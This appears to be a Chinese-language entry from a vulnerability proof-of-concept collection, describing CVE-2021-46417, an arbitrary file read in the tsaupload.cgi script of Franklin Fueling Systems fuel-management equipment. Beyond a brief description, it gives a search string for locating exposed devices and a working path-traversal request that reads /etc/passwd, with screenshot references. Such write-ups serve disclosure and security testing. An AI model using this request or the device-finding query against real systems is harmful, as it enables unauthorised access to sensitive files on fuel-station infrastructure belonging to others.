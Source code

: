 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Electric Franklin Fueling Systems是美国Franklin Electric公司的一个加油系统。

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件。

## 漏洞影响

```
Franklin Fueling Systems
```

## 网络测绘

```
"Franklin Fueling Systems"
```

## 漏洞复现

主页面

![image-20220715105504364](./images/202207151055481.png)

验证POC

```
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![image-20220715105538276](./images/202207151055335.png)

